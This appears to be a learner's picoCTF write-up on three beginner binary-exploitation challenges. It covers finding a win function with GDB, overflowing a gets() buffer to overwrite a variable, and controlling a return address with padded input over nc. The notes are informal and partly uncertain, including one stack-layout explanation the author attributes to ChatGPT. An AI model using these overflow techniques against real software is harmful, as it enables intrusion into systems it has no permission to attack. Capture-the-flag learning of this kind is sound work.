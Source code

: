 PicoCTF:

### [Picker IV](https://play.picoctf.org/playlists/2?m=43)

This one is about using static code analysis to read from both a binary and a c file. 

I can see the win method at the top of the file. 
It will prompt me for the hex code value of where I want to jump to in the assembly code.

I assume this means that I can find the win method in the binary so we go to GDB !

```
Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010e0  putchar@plt
0x00000000004010f0  puts@plt
0x0000000000401100  fclose@plt
0x0000000000401110  printf@plt
0x0000000000401120  fgetc@plt
0x0000000000401130  signal@plt
0x0000000000401140  setvbuf@plt
0x0000000000401150  fopen@plt
0x0000000000401160  __isoc99_scanf@plt
0x0000000000401170  exit@plt
0x0000000000401180  sleep@plt
0x0000000000401190  _start
0x00000000004011c0  _dl_relocate_static_pie
0x00000000004011d0  deregister_tm_clones
0x0000000000401200  register_tm_clones
0x0000000000401240  __do_global_dtors_aux
0x0000000000401270  frame_dummy
0x0000000000401276  print_segf_message
0x000000000040129e  win
0x0000000000401334  main
0x00000000004013d0  __libc_csu_init
0x0000000000401440  __libc_csu_fini
0x0000000000401448  _fini
```

Here are the functions that I can see and so I assume I just put in the win function to get the answer. Lets give it a shot!

My god, after the struggle I had with the python one, having a simple solution was so nice.
The flag was just

Apparently this is going to be important.
```bash
`$ python3 -c "import sys; sys.stdout.buffer.write('a'*36)"`
```
Typically fuzzing (trying a bunch of inputs) using a bunch of 'a' characters is common to try to abuse things.

It didn't produce anything for me but I get the concept. Its to get the desired amount of 'a'.

### [Local Target](https://play.picoctf.org/playlists/2?m=47)
Hints used: 0
"Smash the stack"
I assume Im gonna be popping a bunch of things off the stack but I have no real clue.

I am given a C file and it's assembly code and Ill have to grab the flag from that. 

First off, Ill see what the container looks like
```bash
Enter a string: test

num is 64
Bye!
```
And then it crashses? It doesnt take any more inputs now.
okay... I guess Ill have to read a bit...

```C
  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
```
So this is how we win. So I think that that means that I need to overflow the char[16] input to the point where it modifies the num variable.

Using this command 
```bash
 python3 -c "print(24 * 'a')"
```
I can try a bunch of different amounts of a's and I can now see that at 24 'a's the output is 0.
Now when I add another a it outputs 97. This is the value of the character a, so I just need to figure out the values of each ascii character.

I have added an Resources folder and put the [[ASCII Table]] there for future reference.
I find that the value I need is 65 and that is 'A'
With the input of 24 a and one A I get the flag.

I am surprised that it took 24 charaters to over flow instead of 16. I had assumed that 16 bytes would be enough to overflow the char\[] but it seems that because it is in a char\[] there is an additional buffer of 8bytes. 
Actually, this buffer could be just that the num variable was initialized 8 bytes later in the memory than the input array.

This shows 64 being moved into the -0x8 address. So I should be able to find the char array 24 bytes away from there.
```
   0x0000000000401242 <+12>:	movl   $0x40,-0x8(%rbp)
```
So because the char input\[16] is the first variable defined, it is most likely that it is stored in the -0x20(%rax) address since this is the start of the stack frame.
THIS WAS TAKEN FROM CHATGPT SO GRAIN OF SALT BUD.



### [buffer overflow 1](https://play.picoctf.org/playlists/2?m=49)
"Control the return address"
Hypothesis: I figure this means that I am somehow modifying what is being returned by pushing an input into the address.

Once I connect to the container I see this:
```bash
Please enter your string:
asdfasdfasdf
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
```
So the input that I am giving it is determining where in the memory we are jumping to. So easily I have to find out the value of the win function in the hexcode and then jump there.

I can see that the jump command changes when I input a bunch of As
```
Please enter your string:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
```

I have determined that the return value remains the same until 44 characters are used as an input.
I see that the win address is ```0x080491f6``` and I need to get there from ```0x804932f```.

When I add an additional A I get the address ```0x8049300```
I could do the math to figure out what inputs I need to get the the right address but I will just brute force it.

134517238 - 134517551 = - 313 so I need to add 313 in ASCII characters

I ended up looking at the answer to see what they suggest doing. They suggest using the alphabet as the input as it can help us determine where we need to be looking. I will now try doing that.

```bash
chris@dev-box:~/workspace/learning/cybersecurity$ nc saturn.picoctf.net 52608
Please enter your string:
abcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyz
Okay, time to return... Fingers Crossed... Jumping to 0x76757473
```
So because we can see that the hex is ```0x76757473``` This is assosciated with the letters stuv.  This is what was given by the solution. I think I was making my way towards this but it wasnt going to be as clean and definitely would have taken way longer for me.